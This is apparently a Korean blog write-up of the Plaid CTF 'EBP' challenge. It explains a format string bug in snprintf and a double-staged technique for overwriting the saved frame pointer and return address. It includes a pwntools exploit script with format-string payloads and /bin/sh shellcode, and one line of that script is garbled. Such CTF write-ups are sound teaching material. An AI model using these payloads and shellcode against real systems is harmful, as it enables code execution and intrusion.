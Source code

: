 ```yaml
---
layout: post
title: ! "Plaid CTF EBP Writeup"
excerpt_separator: <!--more-->
comments : true
tags:
  - Writeup
  - CTF
  - Plaid CTF
  - t4ngo
---
```


ctf 문제를 많이 풀어보지는 못했지만 plaid ctf에서 괜찮은 문제가 많은 것 같아 찾아보던 중 EBP라는 문제가 재밌어보여서 포스팅하게 되었습니다!

사실 이번 문제는 FSB(Format String Bug)에 관한 것인데 3년전 문제이기도 하고 요즘은 FSB가 많이 나오지 않는 추세로 알고 있어서 '이걸 아직도 해?' 라고 하시는 분들도 계실 수 있지만 그래도 과거가 있기에 현재가 있는 법! 저와 같이 EBP 문제를 풀며 FSB를 다시 한 번 복습해봅시다!

<!--more>

먼저 Binary를 실행하면 아래와 같이 그냥 입력을 받고 그대로 출력해주는 동작이 끝입니다.

![]({{ site.baseurl }}/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_01.PNG)  

그럼, 좀 더 자세히 알아보기 위해 IDA로 까봅시다!

![]({{ site.baseurl }}/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_02.PNG)  

main에서는 buf에 1024byte만큼 입력을 받고 echo() 함수를 호출합니다.

![]({{ site.baseurl }}/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_03.PNG)  

ehco() 함수는 make_response() 함수를 호출하고 puts()로 response를 출력합니다.

![]({{ site.baseurl }}/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_04.PNG)  

make_response() 함수를 보면 snprintf()를 이용하여 buf의 값을 response에 복사하여 주는 것을 알 수 있습니다.

위 코드를 보고 make_response() 함수에 FSB가 존재한다는 것을 알아채셨겠죠? 하지만, 일반적인 FSB와는 달리 buf가 스택 영역이 아니기 때문에 스택을 마음대로 조작하기에는 어려운 부분이 있죠!

이를 해결하기 위해 Double Staged FSB라는 기법을 이용합니다. (위 내용은 <http://kblab.tistory.com/271>에 잘 정리가 되어 있어서 참고하시면 좋을 것 같습니다!)

다음으로 snprintf()가 호출되기 직전의 stack 상황을 살펴봅니다.

![]({{ site.baseurl }}/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_05.PNG)  

ebp를 확인해보면 0xffffd5b8 위치하여 0xffffd5d8을 가리키고 있습니다. 여기서 당연하게도 0xffffd5d8은 이전 함수 프레임의 ebp를 뜻하겠죠? >_0

그런 다음, 0xffffd5d8 위치를 살펴보면 0xffffd5f8 들어있는 것을 알 수 있습니다. 즉, 이전 함수의 SFP는 0xffffd5f8이라는 사실을 알 수 있습니다. 그리고 이전 함수의 ret는 0xffffd5dc에 위치한 0x08048557이 되겠죠?

여기서 현재 함수의 EBP를 이용하여 이전 함수의 SFP 값을 0xffffd5dc로 바꾸어주면 됩니다.

정리하자면..

1. 현재 함수의 ebp를 이용하여 이전 함수의 SFP 변경
2. 변경된 SFP는 ret를 가리키고 있으므로 컨트롤 가능

그렇다면 이제 FSB를 이용하여 EBP 값이 얼마나 떨어져있는지 확인해 봅시다!

![]({{ site.baseurl }}/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_06.PNG)  

4번째에 0xffffd5f8이 찍히긴 하지만 우리가 확인한 0xffffd5d8이 아닌 0xffffd5f8이 들어있습니다! 하지만, ret는 제대로 나오는 군요! 아마, 실제 메모리에 올라가면서 살짝 뒤로 밀린 것 같네요! O_O

그렇다면 다음과 같은 시나리오를 짤 수 있습니다!

1. %x%x%x%x으로 이전 함수의 SFP 확인
2. 알아낸 ebp+4를 통해 ret가 저장된 주소 계산
3. ret가 저장된 주소로 이전 함수의 SFP OverWrite (shellcode를 넣을 수 있는 곳 확보)
4. shellcode를 저장
5. shellcode가 저장된 곳으로 ret OverWrite

위와 같은 시나리오를 바탕으로 exploit 코드를 짜면 아래와 같습니다!

```
  1 from pwn import *
  2 import struct
  3 
  4 p = process("./ebp_a96f7231ab81e1b0d7fe24d660def25a.elf")
  5 
  6 p.send('%4$x\n')
  7 sleep(1)
  8 leak_addr = p.recv(1024)
  9 leak_addr = int(leak_addr,16)+4 & 0xffff
 10 
 11 payload = '%'+`leak_addr`+'c%4$hn\n'
 12 p.send(payload)
 13 
 14 p.recv(1024)shellcode = '\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80'
 16 payload = shellcode+'%'+`(0xa080-len(shellcode))`+'c%12$hn\n'
 17 p.send(payload)
 18 p.recv(1024)
 19 
 20 p.interactive()

```
![]({{ site.baseurl }}/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_07.PNG)  

exploit 성공!!! 수고하셨습니당~~
